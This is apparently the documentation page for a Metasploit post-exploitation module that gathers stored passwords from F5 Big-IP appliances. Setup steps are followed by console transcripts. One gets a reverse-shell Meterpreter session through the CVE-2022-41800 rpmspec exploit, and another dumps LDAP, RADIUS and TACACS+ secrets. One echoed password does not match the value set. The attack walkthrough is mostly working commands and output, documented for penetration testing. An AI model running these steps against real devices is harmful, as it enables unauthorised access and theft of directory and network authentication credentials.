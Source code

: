 ## Vulnerable Application

The application is F5 Big-IP, and I don't think the versions matters but I
tested on version 17.0.0.1. It can be downloaded as a VMWare image for free
(you have to create an account) from https://downloads.f5.com. You can register
for a free 30-day trial if you like, but it's not required to test this.

Boot the VM and set an admin password by logging in with the default credentials
(admin / admin). You'll need that password.

## Verification Steps

1. Install the application
2. Start `msfconsole`
3. Do: Get any session somehow (`exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800` works well on 17.0.0.1 and earlier, or just use `msfvenom`)
4. Do: `modules/post/linux/gather/f5_passwords`
5. Do `set SESSION <sessionid>`
6. Do: `run`
7. You should get the info

## Options

n/a

## Scenarios

### F5 Big-IP 17.0.0.1 with a root session

First, get a non-root session however you can. I used the rpmspec vuln:

```
msf6 > use exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set HttpPassword mybigtestpassword
HttpPassword => iagotestbigip
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set RHOST 10.0.0.162
RHOST => 10.0.0.162
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set LHOST 10.0.0.179
LHOST => 10.0.0.179
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Sending stage (40168 bytes) to 10.0.0.162
[+] Deleted /var/config/rest/node/tmp/708677fa-5b30-43e6-9ce3-d84046e9f6e9.spec
[+] Deleted /var/config/rest/node/tmp/RPMS/noarch/yE15kZeAwp-1.6.1-7.4.4.noarch.rpm
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.162:36124) at 2022-11-14 16:12:04 -0800

meterpreter > bg
```

Then just use the module, set the SESSION, and run it:

```
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > use modules/post/linux/gather/f5_passwords.rb
msf6 post(linux/gather/f5_passwords) > set VERBOSE true
VERBOSE => true
msf6 post(linux/gather/f5_passwords) > set SESSION 1
SESSION => 1
msf6 post(linux/gather/f5_passwords) > run

[*] Trying to fetch LDAP / Active Directory configuration
[*] Trying to fetch Radius configuration
[*] Trying to fetch TACACS+ configuration
[*] Trying to fetch SMTP configuration
[*] No SMTP password found
[+] LDAP: admin / myadpassword (server(s): ad.example.org)
[+] Radius secret: secret2 (server: myradiustest2.example.org)
[+] Radius secret: myradiussecret (server: myradiustest.example.org)
[+] TACACS+ secret: mytacacspassword (server(s): mytacacsserver.example.org, mytacacsserver2.example.org)
[*] Post module execution completed
[...]
```
